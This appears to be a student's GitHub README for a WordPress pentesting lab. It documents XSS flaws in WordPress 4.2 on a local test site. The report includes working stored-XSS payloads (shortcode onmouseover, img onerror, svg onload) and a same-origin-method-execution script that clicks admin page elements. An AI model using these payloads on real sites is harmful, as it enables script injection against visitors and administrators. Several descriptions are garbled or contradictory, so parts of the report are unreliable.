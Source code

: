 # Project 7 - WordPress Pentesting

Time spent: **30** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) SOME (similar to XSS execution)
  - [ ] Summary: Web Application Attack that abuses the callback endpoints. Can enforce the victim to execute script methods on any page on the endpoints domain.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 
  - [<img src="http://g.recordit.co/CwYanI8pQY.gif" width=250><br>] GIF Walkthrough: 
  - [ ] Steps to recreate: Leave a comment with a button javascript, after we post it- we get a Button as out comment, so victim clicks on it and weird stuff will pop up.
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 2. (Required) Cross Site Scripting Exploit
  - [ ] Summary: Onload we alert with a payload. Alert will pop out everytime the site loads.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 
  - [<img src="http://g.recordit.co/zU5B75JSqB.gif" width=250><br> ] GIF Walkthrough: 
  - [ ] Steps to recreate: We leave an URL in the post, sort of like HTTP, every time the page loads- it cannot pop out an alert.
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) XSS
  - [ ] Summary: We would insert this malicious link into the comment to generate a clickable link <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>. Versions before 4.2.3 starting from at least 3.0 (released in 2010) are vulnerable
    - Vulnerability types: Cross Site 
    - Tested in version: 4.2
    - Fixed in version: 4.2.3 Stored XSS
  - [<img src="http://g.recordit.co/jDhPM4VzCo.gif" width=250><br>] GIF Walkthrough: 
  - [ ] Steps to recreate: Post malicious script in the comment section, after admin has approved your comment- no auth is needed afterwards.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional)  XSS cont. #4 4.2.3 Stored XSS
  - [ ] Summary: 
    - Vulnerability types: Stored XSS. WordPress shortcode processing manipulates this into the following form
     <a href="</a><a title=" onmouseover=alert('test')  ">link</a>
    - Tested in version: 4.2
    - Fixed in version: The bug was corrected on July 23, 2015. It has been patched automatically for most users.
  - [<img src="http://g.recordit.co/Pt3D6BaBmN.gif" width=250><br> ] GIF Walkthrough: 
  - [ ] Steps to recreate: Post malicious script in the comment section, after admin has approved your comment- no auth is needed afterwards.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) XSS
  - [ ] Summary: XSS, example of Cross Site Scripting
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 
  - [ <img src="http://g.recordit.co/cHYjzhs3qG.gif" width=250><br>] GIF Walkthrough: 
  - [ ] Steps to recreate: Create a new post using malicious script 
   abc<img src=a onerror=alert('antistore'). Try publishing the post and everytime you would have to click on the pop up in order to comment or do anything else on the site.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

https://klikki.fi/adv/wordpress3.html

Just some examples of the script

<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:setTimeout("location=\'http://wpdistillery.vm
/wp-includes/js/plupload
/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');  
  setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
}
</script>

http://wpdistillery.vm/<svg onload=alert(1)>



## Resources

- [WordPress Source Browser](https://klikki.fi/adv/wordpress3.html)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with RecordIt.co.

## Notes

Describe any challenges encountered while doing the work

It's a lot of information to process and 2 week just aren't enough time to explore unless you are an advanced hacker.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
